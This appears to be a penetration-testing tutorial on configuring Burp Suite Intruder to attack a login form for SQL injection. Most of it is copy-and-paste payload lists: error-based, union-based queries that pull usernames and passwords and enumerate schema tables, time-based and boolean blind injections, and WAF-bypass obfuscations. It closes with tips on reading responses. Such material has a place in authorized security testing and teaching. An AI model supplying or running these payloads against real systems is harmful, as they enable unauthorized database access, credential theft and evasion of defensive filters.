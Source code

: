 Tips for using **Burp Suite Intruder**, you can efficiently test for SQL Injection vulnerabilities. Below is an example payload setup for testing a login form.

---

### **Step-by-Step: Using Intruder for SQLi**
1. **Set the Intruder Attack:**
   - Right-click on the login request in the HTTP history and select `Send to Intruder`.
   - Go to the **Positions** tab, and set payload markers (`§`) around the parameters you want to test. For example:
     ```
     POST /login HTTP/1.1
     Host: target.com
     Content-Type: application/x-www-form-urlencoded

     user[email]=§test§&user[password]=§password§&authenticity_token=TOKEN
     ```

   - This example targets the `user[email]` and `user[password]` fields.

2. **Choose the Attack Type:**
   - Use the **Sniper** attack type if testing one parameter at a time.
   - Use the **Pitchfork** or **Cluster Bomb** if testing combinations of parameters.

---

### **Payloads for SQLi**
Below is a sample list of payloads for the **Intruder Payloads tab**. These payloads cover common SQLi techniques.

#### **1. Error-Based SQLi**
```plaintext
' OR 1=1--
" OR 1=1--
' OR '1'='1
" OR "1"="1
') OR ('1'='1
") OR ("1"="1
') OR 1=1--
") OR 1=1--
') OR 'a'='a'--
") OR "a"="a"--
```

#### **2. Union-Based SQLi**
```plaintext
' UNION SELECT NULL,NULL--
' UNION SELECT 1,2,3--
' UNION ALL SELECT NULL,NULL,NULL--
' UNION SELECT username,password FROM users--
' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables--
' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name='users'--
```

#### **3. Time-Based Blind SQLi**
```plaintext
' OR IF(1=1,SLEEP(5),0)--
" OR IF(1=1,SLEEP(5),0)--
' AND IF(1=1,SLEEP(5),0)--
" AND IF(1=1,SLEEP(5),0)--
' AND SLEEP(5)--
" AND SLEEP(5)--
' OR SLEEP(5)--
" OR SLEEP(5)--
```

#### **4. Boolean-Based Blind SQLi**
```plaintext
' AND 1=1--
' AND 1=2--
' OR 'a'='a--
' OR 'a'='b--
" AND 1=1--
" AND 1=2--
" OR "a"="a--
" OR "a"="b--
```

---

### **Advanced Techniques**
#### **WAF Bypass Payloads**
Some WAFs block common SQLi patterns, so try obfuscation:
```plaintext
%27+OR+1%3D1--        (URL-encoded)
%27%20OR%201%3D1--    (URL-encoded with space)
'/**/OR/**/1=1--      (Inline comments)
' OR 1=CAST(1 AS SIGNED)--
' OR 1=CONVERT(1 USING latin1)--
```

#### **Custom Payloads**
Use dynamic payloads if you have insights about the database (e.g., MySQL, PostgreSQL):
```plaintext
' UNION SELECT NULL,USER()--   (MySQL)
' UNION SELECT VERSION(),NULL-- (MySQL)
' AND 1=(SELECT COUNT(*) FROM information_schema.tables)--
```

---

### **Configuring Burp Suite Intruder**
- **Payload Sets:** Copy and paste the above payloads into the payload list.
- **Request Throttling:** Use `Throttle` in `Options` if the server has rate-limiting.
- **Response Analysis:** Use the `Grep - Match` feature to look for SQL errors like:
  - `You have an error in your SQL syntax`
  - `ORA-00933: SQL command not properly ended`
  - `Microsoft OLE DB Provider for SQL Server`
  - `Unknown column`

---

### **Next Steps**
Once the attack runs, analyze the responses:
- Look for different response lengths or HTTP status codes.
- Identify response time delays for time-based SQLi.
- Use the results to refine and escalate your testing.

